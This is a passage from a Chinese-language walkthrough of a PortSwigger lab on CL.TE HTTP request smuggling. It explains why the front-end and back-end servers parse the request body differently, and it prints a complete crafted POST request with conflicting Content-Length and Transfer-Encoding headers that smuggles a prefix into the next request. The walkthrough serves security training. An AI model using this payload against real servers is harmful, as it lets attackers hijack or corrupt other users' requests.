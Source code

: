 前端服务器处理 Content-Length 标头并确定请求正文的长度为 13 个字节，直到 SMUGGLED 结束，这个请求被转发到后端服务器，后端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，该块被声明为零长度，因此被视为终止请求，而后面的字节 (走私的) 未被处理，后端服务器将把这些视为序列中下一个请求的开始  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)  
解题过程：  
Step 1：访问以上链接并点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-578b39e56e898a777188cbe51c42d00d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154008-51abf38c-aa0b-1.png)  
Step 2：捕获数据包并构造一下请求报文

```bash
POST / HTTP/1.1
Host: 0af800e2048fe11a806ff35700f30086.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 6
Transfer-Encoding: chunked
Cookie: session=Z9jX1prJb6b6yIn5SbqiZY50uHHeECIX

0

G
```

第一次请求操作如下所示：  
[![](assets/1704418275-49f1fd4f27e2df839333c993e8a31e0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154039-644105be-aa0b-1.png)  
第二次请求时发现回显提示"Unrecognized method GPOST"，这个主要是由于前端服务器处理 Content-Length 标头并确定请求正文的长度为 6 个字节，直到 G 结束，这个请求被转发到后端服务器，后端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，该块被声明为零长度，因此被视为终止请求，而后面的字节 (走私的) 未被处理，后端服务器将把这些视为序列中下一个请求的开始，所以成为了最后的——"GPOST"

[![](assets/1704418275-0d50cbf63e0a4cb71c40f8014efd1be9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154054-6d47dac0-aa0b-1.png)  
Step 3：随后刷新页面成功完成解题

[![](assets/1704418275-bd9bd1d674eb05b8a4c7086e3dbd1966.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154107-74e80322-aa0b-1.png)

### TE.CL vulnerabilities

